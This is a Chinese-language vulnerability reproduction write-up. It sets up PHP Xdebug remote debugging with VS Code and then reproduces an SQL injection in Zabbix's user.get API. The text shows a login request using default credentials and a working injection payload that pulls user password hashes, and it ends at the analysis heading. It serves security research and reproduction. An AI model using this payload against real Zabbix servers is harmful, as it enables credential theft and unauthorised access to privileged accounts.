 然后vi /etc/php.d/99-xdebug.ini  
 添加行zend_extension = xdebug  
  
然后systemctl restart php-fpm  
重启 php-fpm，最后php-fpm -v  
查看是否成功生效  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOBjxpPIsXeepSF1TphHica9ywjmGSNnsPTukX4zX4EWdEibticJEQRur87TmJZblAoYdt6qTsmAjmlw/640?wx_fmt=png&from=appmsg "")  
  
配置php.ini文件，在末尾添加以下内容  
```
xdebug.mode = debug,develop,tracexdebug.start_with_request = yesxdebug.client_host = 192.168.182.1xdebug.client_port = 9003
```  
  
具体作用可以参考  
https://xdebug.org/docs/develop  
  
这里是指定vscode所在机子的ip和通信端口（注意要开放这个端口）  
  
然后在vscode添加调试配置，将生成的php xdebug的默认配置改为  
```
{  "name": "远程调试","type": "php","request": "launch","port": 9003,"pathMappings": {    "/usr/share/zabbix": "${workspaceFolder}/ui"  },"hostname": "192.168.182.1"}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOBjxpPIsXeepSF1TphHica9dtvSHhpz8O84hiaprhiaGKZtV2R1xAGY9sArib8c18krkLtU1xQdNm8jw/640?wx_fmt=png&from=appmsg "")  
# 漏洞复现  
  
Zabbix 的addRelatedObjects  
函数中的CUser  
类中存在SQL注入，此函数由 CUser.get  
 函数调用，具有API访问权限的用户可利用造成越权访问高权限用户敏感信息以及执行恶意SQL语句等危害。  
  
首先通过账号密码登录后台  
```
POST /api_jsonrpc.php HTTP/1.1Host: Accept-Encoding: gzip, deflateAccept: */*Connection: closeContent-Type: application/json-rpcContent-Length: 106{"jsonrpc": "2.0", "method": "user.login", "params": {"username": "Admin", "password": "zabbix"}, "id": 1}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOBjxpPIsXeepSF1TphHica9yPQQZ4X97JsoXxibbQOUGabYXV8EeAZichsMWHNFg9ibzibUSCMDicbLWwg/640?wx_fmt=png&from=appmsg "")  
  
然后SQL注入获取敏感信息  
```
POST /api_jsonrpc.php HTTP/1.1Host: Accept-Encoding: gzip, deflateAccept: */*Connection: closeContent-Type: application/json-rpcContent-Length: 167{"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, u.passwd", "roleid"], "userids": "1"}, "auth": "2ae264ef7c19d2c2016a302c64e974c6", "id": 1}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOBjxpPIsXeepSF1TphHica9GY0QpYEnicLiaC2bxINBRgKMicSIHGzYpm9cIC7IGPyIVLicEJsroEhctg/640?wx_fmt=png&from=appmsg "")  
# 漏洞分析  
  